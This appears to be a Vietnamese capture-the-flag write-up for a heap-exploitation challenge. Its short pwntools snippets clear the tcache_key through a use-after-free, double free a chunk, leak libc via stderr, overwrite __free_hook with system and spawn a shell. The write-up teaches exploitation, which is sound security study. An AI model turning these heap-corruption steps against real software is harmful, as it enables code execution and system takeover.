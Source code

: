   - Ở phiên bản này mục tiêu của ta là double free để malloc 1 chunk tùy ý. Tuy nhiên tại vị trí fd+8 của chunk được free được set 1 giá trị là tcache_key, giá trị này được kiểm tra mỗi khi chunk đó được free do đó ta cần phải thay đổi giá trị này bằng uaf.
  - Mục tiêu là ghi đè vào free_hook thành system. Đầu tiên ta sẽ leak libc bằng stderr rồi, cấp phát vào free_hook.
  - xóa tcache_key và double free
  ```
  size = 0x30
  book(1, size)
  choice(3)
  book(2, size, b'\x00'*16)
  choice(3)
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218760593-10d4c7f5-5255-4377-bf2c-3ec031972a7f.png)
  - ![image](https://user-images.githubusercontent.com/113702087/218760746-c6acd4a1-ef5e-4f73-ba9a-bc7b1dad6ac5.png)
  - leak libc
  ```
  book(2, size, p64(exe.sym['stderr']))
  book(1, size)
  book(1, size, b'\xc0')
  choice(4)
  r.recvuntil(b'Content: ')
  libc_leak = r.recv(6)
  libc.address = u64(libc_leak + b'\x00'*2) - libc.sym['_IO_2_1_stderr_']
  print(hex(libc.address))
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218760954-68b9bd23-3983-4d95-862a-93b7ce1091f9.png)
  - ghi đè free_hook
  ```
  book(1, size)
choice(3)
book(2, size, b'\x00'*16)
choice(3)
book(2, size, p64(libc.sym['__free_hook']))
book(1, size)
book(1, size, p64(libc.sym['system']))
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218761451-b0990d15-a45c-42fa-b05a-dcf5c6b4e0e5.png)
  - getshell
  ```
  book(1, size, b'/bin/sh\x00')
choice(3)
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/218761587-63516997-3ea7-4743-bc08-40b5e28af71f.png)
